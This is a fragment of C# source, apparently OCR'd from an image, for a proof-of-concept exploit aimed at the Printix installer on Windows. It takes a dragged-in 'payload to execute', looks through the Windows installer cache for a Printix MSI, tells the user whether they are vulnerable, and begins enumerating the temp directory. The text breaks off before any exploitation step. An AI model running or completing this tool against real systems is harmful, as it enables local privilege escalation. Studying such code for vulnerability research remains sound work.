         try
        {
            if (args[0]?.Length >0)
            {
                Console.WriteLine("File Added: " + args[0]);
            }
            
        }
        catch (Exception e)
        {
            Console.WriteLine("You\'re missing a file here, please ensure that you drag and drop a payload to execute.\n \n We'll print the error for you right here...\n \n");
            Console.ForegroundColor = ConsoleColor.Red;
            Console.WriteLine(e);
            Console.ReadLine();
            Environment.Exit(40);
        }


        Console.WriteLine("\n We're going to look for your printix installer, one moment...");
        string[] installerSearch = Directory.GetFiles(@"C:\windows\installer\", "*.msi", SearchOption.AllDirectories);

        double mCheck = 1.00;

        string trueInstaller = "";
        //Starts to enumerate window's installer directory for an author with the name of printix.
        foreach (string path in installerSearch)
        {
            Console.WriteLine("Searching Files: {0} / {1} Files", mCheck, installerSearch.Length);
            Console.WriteLine("Searching Files... " + (Math.Round((mCheck / installerSearch.Length) * 100)) + "% Done.");
            if (readFileProperties(path, "Printix"))
            {
                trueInstaller = path;
                Console.WriteLine("We've found your installer, we'll finish enumeration.");
                goto MGMA;
            }
            mCheck++;
        }
    //Flag for enumeration when the loop needs to exit, since it shouldn't loop infinitely.
    MGMA:
        if (trueInstaller == "")
        {
            Console.WriteLine("We can't find your installer, you are not vulnerable.");
            Thread.Sleep(2000);
            Environment.Exit(12);
        }
        Console.WriteLine("├─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────");
        Console.WriteLine("├ We are starting to enumerate your temporary directory.");
        Console.WriteLine("├─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────");
